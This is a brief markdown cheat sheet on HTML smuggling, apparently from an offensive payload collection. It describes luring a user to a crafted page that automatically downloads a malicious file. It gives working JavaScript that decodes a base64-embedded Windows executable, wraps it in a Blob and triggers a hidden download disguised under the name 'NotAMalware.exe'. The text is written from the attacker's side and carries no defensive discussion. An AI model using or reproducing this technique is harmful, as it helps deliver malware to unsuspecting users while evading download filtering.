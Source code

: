 # HTML Smuggling

## Summary
- [HTML Smuggling](#html-smuggling)
  - [Summary](#summary)
  - [Description](#description)
  - [Executable Storage](#executable-storage)


## Description

HTML Smuggling consists of making a user to navigate to our crafted HTML page which automaticaly download our malicious file.

## Executable storage

We can store our payload in a Blob object => JS: `var blob = new Blob([data], {type: 'octet/stream'});`
To perform the download, we need to create an Object Url => JS: `var url = window.URL.createObjectURL(blob);`
With those two elements, we can create with Javascript our \<a> tag which will be used to download our malicious file: 
```Javascript
var a = document.createElement('a');
document.body.appendChild(a);
a.style = 'display: none';
var url = window.URL.createObjectURL(blob);
a.href = url;
a.download = fileName;
a.click();
window.URL.revokeObjectURL(url);
```

To store ou payload, we use base64 encoding: 
```Javascript
function base64ToArrayBuffer(base64) {
	var binary_string = window.atob(base64);
	var len = binary_string.length;
	var bytes = new Uint8Array( len );
	for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
	return bytes.buffer;
}
     		
var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA...
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'NotAMalware.exe';
```